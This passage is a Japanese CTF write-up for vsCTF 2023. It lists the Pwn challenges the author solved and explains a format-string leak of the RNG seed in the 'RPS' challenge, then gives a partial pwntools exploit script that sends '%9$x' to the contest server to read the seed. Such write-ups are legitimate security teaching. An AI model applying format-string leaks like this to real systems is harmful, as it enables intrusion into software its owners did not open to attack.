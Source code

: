 ```yaml
---
layout: page
title: vsCTF 2023
parent: CTF Writeups
nav_order: 4
---
```


# 出た

[vsCTF2023](https://ctf.viewsource.me/)

# 解いた

- Pwn
  - RPS
  - Tiny-Pwn
  - Cosmic Ray v2

# RPS

urandom から取ってきた 4 バイトを seed にして 50 回じゃんけんに勝てばフラグがもらえる。

名前入力に FSB があるので適当にリークして目的を達成するコードを書く。

exploit.py

```python
from pwn import *
import json
from c_rand import *

binary = ELF("./rps", checksec=True)
binary_rop = ROP(binary)

context.log_level = "info"
context.terminal = ["tmux", "splitw", "-h"]
context.arch = "amd64"
context.os = "linux"
context.bits = 64

hands = ["r", "p", "s"]

def beat(hand: str) -> str:
    if hand == "p":
        return "s"
    elif hand == "r":
        return "p"
    elif hand == "s":
        return "r"


def exploit():
    # io = gdb.debug("./rps")
    io = remote("vsc.tf", 3094)

    io.sendline(b"%9$x")
    io.readuntil(b"Hi ")
    seed = int(io.readline(), 16)

    success(f"got seed {hex(seed)}")

```